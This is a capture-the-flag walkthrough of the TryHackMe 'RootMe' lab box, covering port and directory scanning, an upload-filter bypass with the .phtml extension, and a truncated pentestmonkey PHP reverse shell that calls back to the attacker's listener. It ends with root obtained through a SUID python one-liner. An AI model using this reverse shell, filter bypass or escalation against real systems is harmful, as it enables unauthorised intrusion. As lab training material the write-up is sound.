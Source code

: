 # RootMe

[Play](https://tryhackme.com/room/rrootme)

## 1. Scanning & Enumeration
### 1.1 Port Scanning
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.35.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 01:18 EDT
Nmap scan report for 10.10.35.149
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.57 seconds
```

Okay nothing interesting at all. Let’s go for an all ports scan.

While go buster and nmap runs, I wanted to see if the website is built on php or not. The following works!

`http://10.10.35.149/index.php`

### 1.2 Web Enumeration
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.35.149 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/uploads              (Status: 301) [Size: 314] [--> http://10.10.35.149/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.35.149/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.35.149/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.35.149/panel/]
```

Panel looks interesting, so let’s try uploading a README.md file (of this repo).

![https://i.imgur.com/1xtAlAB.png](https://i.imgur.com/1xtAlAB.png)

Success! Let’s check the uploads page.

![https://i.imgur.com/XV6CLIc.png](https://i.imgur.com/XV6CLIc.png)


### 1.3 Revshell Time
Time for a phpreverseshell. Go to pentestmonkey or revshells.com and get the php one.

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.150.214';
$port = 1337;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;
...
```

Okay, time for uploading! ... and we get 

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1a725c9-6fa3-471a-890e-ed702dc32876/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1a725c9-6fa3-471a-890e-ed702dc32876/Untitled.png)

Clearly the extension is working against us, since `.md` passed. Oh and meanwhile

```
Nmap scan report for 10.10.35.149
Host is up (0.20s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

So let's see what other extensions are allowed. [Source](https://www.guru99.com/what-is-php-first-php-program.html)

- .phtml
- .php3
- .php4
- .php5
- .phps

Okay. One by one.

## Foothold

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d4cc0a26-2daa-4b74-82bc-afc81ac4bed0/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d4cc0a26-2daa-4b74-82bc-afc81ac4bed0/Untitled.png)

Ha! `.phtml` works! Lesgooo

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lvnp 1337      
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.35.149] 33678
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:39:36 up 30 min,  0 users,  load average: 0.00, 0.01, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/                                                                                 
$ ls                                                                              
bin                                                                               
boot                                                                              
cdrom                                                                             
dev
... 
```

## PrivEsc

```
www-data@rootme:/home/rootme$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null                                                                                                                                   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                             
/usr/lib/snapd/snap-confine                                                                                                                                             
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
...
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

python thing looks interesting. [gtfobins](https://gtfobins.github.io/gtfobins/python/#suid) ftw!

```
www-data@rootme:/$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
bash -i
bash: cannot set terminal process group (891): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$
```

We are done!
